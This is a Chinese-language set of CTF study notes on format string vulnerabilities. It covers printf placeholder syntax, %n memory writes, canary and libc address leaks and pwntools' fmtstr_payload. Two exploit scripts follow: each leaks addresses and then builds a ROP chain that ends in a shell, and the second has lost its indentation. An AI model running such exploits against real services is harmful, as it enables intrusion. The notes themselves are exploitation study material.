

> 写的很乱，日后再改

### 原理

#### 格式化输出函数

``` C
int printf(const char *format, ...);
int fprintf(FILE *stream, const char *format, ...);
int sprintf(char *str, const char *format, ...);
int snprintf(char *str, size_t size, const char *format, ...);
```

#### 占位符语法

```C
%[parameter][flags][field width][.precision][length]type
```

###### parameter

n$：第几个参数

###### type

X：Hex

p：void*指针型值

n：把已经成功输出的字符个数写入对应整型指针参数所指变量

%n     一次性写入 4 个字节

%hn     一次性写入 2 个字节

%hhn    一次性写入 1 个字节

%lln 8

### 利用

第几个参数可以通过gdb的fmtarg功能查找



> 懒狗是这样的，直接截

#### 泄露栈上数据

`%X$p` `%X$x` `%08x` 可泄露栈上数据，可用于泄露canary

也可先在栈上写上需要的数据，再利用进行任意内存写，如`%Yc%X$n` 

### 泄露libc地址

libcmain地址会在调用main时存入

#### 泄露栈上地址指向的数据

` %s` 显示地址指向的ascll，可用于got表泄露

#### 覆盖栈上任意地址

###### 实例

尝试将 `arg2` 的值更改为任意值 （ 比如 `0x00000020` ，十进制 32 ）在gdb中可以看到得到`arg2`的地址`0xffffd538`， 那么我们构造格式字符串`\x38\xd5\xff\xff%08x%08x%012d%13$n` ， 且中 `\x38\xd5\xff\xff` 表示 `arg2` 的地址，占 4 字节，`％08x％08X` 表示两个 8 字符宽的十六进制数 ， 占 16 字节 ，`％012d` 占 12 字节 ， 三个部分加起来就占了4 + 16 + 12 = 32 字节 ， 即把 arg2 赋值为 `0x00000020`。 格式字符串最后一部分`％13$n`也是最重要的一部分，和上面的内容一样 ， 表示格式字符串的第 13 个参数 ， 即写入 `0xffffd538` 的地方（ `0xffffd564 `）`printf()` 就是通过这个地址找到被覆盖的内容的 

`printf` 首先解析 `％13$` 找到获得地址`0xffffd564` 的值`0xffffd538`， 然后跳转到地址 `0xffffd538`， 将它的值 `0X88888888` 覆盖为 `20` ， 就得到`arg2 = 0x00000020 `

### Canary

| High address |                |
| -----------: | :------------: |
|              |      args      |
|              | return address |
|          rbp |    old ebp     |
|      rbp - 8 |  canary value  |
|              | local variable |
|  Low address |                |


### 水水实例

某某杯payload

```python
from pwn import*
context.log_level='debug'
#p=process("./pwn1")
p=remote("172.51.228.233",9999)
#gdb.attach(p)


p.recvuntil('thing\n')
p.sendline('1')
p.recvuntil('tricks\n0x')
base=int(p.recvn(12),16)
backdoor=base-0x94
binsh=base+0x202068-0xa94
gadgets=base+0xc73-0xa94
gadgets2=base+0x821-0xa94
sys=base+0x870-0xa94


p.sendline('2')
p.recvuntil('hello\n')
p.sendline('%33$p')
p.recvuntil('0x')
canary=int(p.recvn(16),16)

payload=b'A'*25*8+p64(canary)+b"A"*8+p64(gadgets)+p64(binsh)+p64(gadgets2)+p64(sys)
p.sendline(payload)

p.interactive()

```

## fmtstr_payload

fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT: systemAddress}；本题是将0804a048处改为0x2223322
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
fmtstr_payload函数返回的就是payload


实际上我们常用的形式是fmtstr_payload(offset,{address1:value1})

## 进阶操作

读入函数不保存在栈上，无法直接修改地址的情况

通过利用栈上已有的地址，向已有的地址写入想修改的地址，然后再将修改后的地址作为参数

例：dasctf2023bin专项，fooooood（wp转载）

```python
from pwn import *
context.terminal=['tmux','splitw','-h']
context.arch='amd64'
# p=process('./pwn')
p=remote('localhost',9999)
libc=ELF('./libc.so.6')
# 1->11 2->37
# 1->25 2->39
# 覆盖变量i为40
p.sendlineafter('name:',b'aaa');
payload=b'%11$p'
p.sendlineafter('food: ',payload)
p.recvuntil('like ')
rsp=int(p.recvuntil('!?')[:-2],16)-248
i=rsp+4
i_off=i&0xffff
payload=b'%'+str(i_off).encode()+b'c%11$hn'
p.sendlineafter('food: ',payload)
payload=b'%'+str(40).encode()+b'c%37$hhn'
sleep(1)
p.sendlineafter('food: ',payload)
#泄露libc_base
payload=b'%9$p'
p.sendlineafter('food: ',payload)
p.recvuntil('like ')
libc.address=int(p.recvuntil('!?')[:-2],16)-240-libc.sym.__libc_start_main#简单的格式化字符串利用函数，将dest地址的后8字节循环更改成ptr对应的字节，off1与off2为上述
（1）与（2）两个栈地址在格式化字符串中的偏移
def overlap(dest,ptr,off1,off2):
d=dest&0xff
for i in range(8):
if not ptr:
break
payload=b'%'+str(d).encode()+b'c%'+str(off1).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
f=ptr&0xff
payload=b'%'+str(f).encode()+b'c%'+str(off2).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
d+=1
ptr>>=8
ret=rsp+0x18
ptr=libc.address+0x21112
print(hex(libc.sym.system))
#通过将第25个参数传入格式化字符串，将第39个参数的值改为返回地址
payload=b'%'+str(ret&0xffff).encode()+b'c%'+str(25).encode()+b'$hn'
p.sendlineafter('food: ',payload)
#覆盖返回地址为ptr（pop_rdi; ret）
overlap(ret,ptr,25,39)
#覆盖返回地址+8的位置为binsh字符串地址
overlap(ret+8,libc.search(b'/bin/sh').__next__(),25,39)
#覆盖返回地址+16的位置为system函数的地址
overlap(ret+16,libc.sym.system,25,39)
#至此，退出循环执行ROP后即可获取系统操作权限
p.sendlineafter('food: ',payload)
p.interactive()
```

```python
#简单的格式化字符串利用函数，将dest地址的后8字节循环更改成ptr对应的字节，off1与off2为上述
（1）与（2）两个栈地址在格式化字符串中的偏移
def overlap(dest,ptr,off1,off2):
d=dest&0xff
for i in range(8):
if not ptr:
break
payload=b'%'+str(d).encode()+b'c%'+str(off1).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
f=ptr&0xff
payload=b'%'+str(f).encode()+b'c%'+str(off2).encode()+b'$hhn'
p.sendlineafter('food: ',payload)
d+=1
ptr>>=8
```

